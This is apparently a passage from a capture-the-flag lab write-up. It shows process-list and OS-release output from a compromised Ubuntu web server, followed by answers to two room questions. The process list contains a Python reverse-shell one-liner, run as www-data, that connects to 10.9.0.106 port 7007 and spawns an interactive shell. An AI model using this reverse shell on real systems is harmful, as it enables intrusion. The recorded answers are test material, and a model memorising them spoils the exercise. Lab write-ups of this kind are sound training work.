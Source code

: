 ```bash
root       864     1  0 07:53 ?        00:00:00 /usr/bin/lxcfs /var/lib/lxcfs/
daemon     867     1  0 07:53 ?        00:00:00 /usr/sbin/atd -f
syslog     869     1  0 07:53 ?        00:00:00 /usr/sbin/rsyslogd -n
root       872     1  0 07:53 ?        00:00:00 /lib/systemd/systemd-logind
root       873     1  0 07:53 ?        00:00:00 /usr/sbin/sshd -D
root       881     1  0 07:53 ttyS0    00:00:00 /sbin/agetty -o -p -- \u --keep-baud 115200,38400,9600 ttyS0 vt220
root       888     1  0 07:53 ?        00:00:00 /usr/lib/policykit-1/polkitd --no-debug
root       889     1  0 07:53 tty1     00:00:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root       913     1  0 07:53 ?        00:00:01 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root       934     1  0 07:53 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   936   934  0 07:53 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   937   934  0 07:53 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   938   934  0 07:53 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   939   934  0 07:53 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   946   934  0 07:53 ?        00:00:00 /usr/sbin/apache2 -k start
www-data  1159   934  0 07:54 ?        00:00:00 /usr/sbin/apache2 -k start
www-data  1160   934  0 07:54 ?        00:00:00 /usr/sbin/apache2 -k start
www-data  1161   934  0 07:54 ?        00:00:00 /usr/sbin/apache2 -k start
root      1347     2  0 08:03 ?        00:00:00 [kworker/u30:1]
root      1481     2  0 08:15 ?        00:00:00 [kworker/u30:0]
www-data  1484   938  0 08:16 ?        00:00:00 sh -c python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.106",7007));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
www-data  1485  1484  0 08:16 ?        00:00:00 python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.106",7007));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
www-data  1487  1485  0 08:16 ?        00:00:00 /bin/sh -i
www-data  1494  1487  0 08:17 ?        00:00:00 ps -ef
$ cat /etc/os-release
NAME="Ubuntu"
VERSION="18.04.4 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.4 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

## Answer the questions below

3.What strange text file is in the website root directory?
>>drpepper.txt

4.How many non-root/non-service/non-daemon users are there?
>>0
